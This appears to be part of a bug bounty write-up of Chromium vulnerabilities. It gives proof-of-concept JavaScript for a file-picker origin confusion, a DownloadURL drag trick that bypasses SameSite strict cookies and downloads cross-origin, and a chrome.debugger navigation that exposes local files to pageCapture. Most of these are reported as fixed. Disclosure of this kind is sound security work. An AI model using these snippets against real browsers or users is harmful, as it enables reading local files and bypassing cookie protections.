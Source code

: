 File picker shown on the wrong origin while keeping FileSystemHandle.

```js
onmouseup = (_) => {
  let fs = showOpenFilePicker();
  open('https://www.google.com');
};
```

This issue was fixed in <https://issues.chromium.org/40059071> by making FileSystemAccess APIs consume user activation.

# SameSite strict cookies bypass/cross-origin download via `e.dataTransfer.setData('DownloadURL', ...`, Awarded $1000

Drag the `foo` text on to your desktop.
The file would contain `sec-fetch-site: 'none'`

```js
let link = document.createElement('a');
link.innerText = 'foo';
link.href = '#';
link.addEventListener('dragstart', onDragStart, false);
document.body.appendChild(link);

function onDragStart(e) {
  e.dataTransfer.setData(
    'DownloadURL',
    'application/octet-stream:demo:https://terjanq.me/xss.php?headers'
  );
  e.dataTransfer.effectAllowed = 'all';
}
```

This SameSite issue was fixed in <https://issues.chromium.org/40060358> but cross-origin download still works <https://www.youtube.com/watch?v=mqQjzx3HSUc>

# Prevent server redirect to non-web accessible resource, Awarded $1000

Abusing auto reloader for a WAR bypass this issue was fixed in <https://issues.chromium.org/40060076>

# chrome.debugger 'Page.navigate' could navigate iframes to file:// when not enabled, Awarded $3000

Extensions with both `pageCapture` and `debugger` permissions can read local file contents.
This is because its possible to use `Page.navigate` to navigate an iframe to `file://` when "Allow access to file URLs" is disabled exposing the files contents to the `pageCapture` API.

```js
chrome.debugger.attach({tabId: <TARGET>}, '1.3', console.log);
chrome.debugger.sendCommand({tabId: <TARGET>}, 'Page.navigate', {frameId: <FRAME ID AS SEEN FROM EVENTS), url: 'file:///d:/demo.txt'}, console.log);
chrome.pageCapture.saveAsMHTML({tabId: 800972627}, console.log);
```
